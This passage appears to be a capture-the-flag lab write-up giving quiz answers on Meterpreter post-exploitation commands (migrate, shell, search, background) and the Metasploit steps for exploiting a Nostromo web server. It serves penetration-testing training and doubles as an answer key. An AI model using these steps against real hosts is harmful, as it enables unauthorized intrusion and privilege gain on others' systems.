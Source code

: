 4. How do you change processes on the victim host(Ideally it will allow you to change users and gain the perms associated with that user)
```
migrate
```

5. What command lists files in the current directory on the remote machine?
```
ls
```

6. How do you execute a command on the remote host?
```
execute
```

7. What command starts an interactive shell on the remote host?
```
shell
```

8. How do you find files on the target host(Similar function to the linux command "find")
```
search
```

9. How do you get the output of a file on the remote host?
```
cat
```

10. How do you put a meterpreter shell into "background mode"(allows you to run other msf modules while also keeping the meterpreter shell as a session)?
```
background
```


## Task 10 [Section 3 - Metasploit]: Final Walkthrough
1.	Select the module that needs to be exploited
```
use exploit/multi/http/nostromo_code_exec
```

2.	What variable do you need to set, to select the remote host
```
RHOSTS
```

3.	How do you set the port to 80
```
set RPORT 80
```

4. How do you set listening address(Your machine)
```
LHOST
```

5.	Exploit the machine!
